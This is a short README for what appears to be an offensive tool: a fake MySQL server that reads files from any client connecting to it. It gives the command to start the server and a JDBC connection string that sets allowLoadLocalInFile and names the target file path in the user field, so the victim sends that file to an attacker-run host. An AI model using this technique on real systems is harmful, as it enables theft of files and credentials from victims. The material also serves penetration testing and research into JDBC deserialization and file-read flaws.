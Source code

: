 # File reading MySQL server

Proto from: https://github.com/waldiTM/python-mysqlproto
Original from: https://github.com/fnmsd/MySQL_Fake_Server

This just provides the file read component of the MySQL_Fake_Server

## Usage

Server Side:
```bash
python server.py
```

JDBC URL on target:

```
jdbc:mysql://server.host/test?allowLoadLocalInFile=true&user=fileread_/path/to/file
```



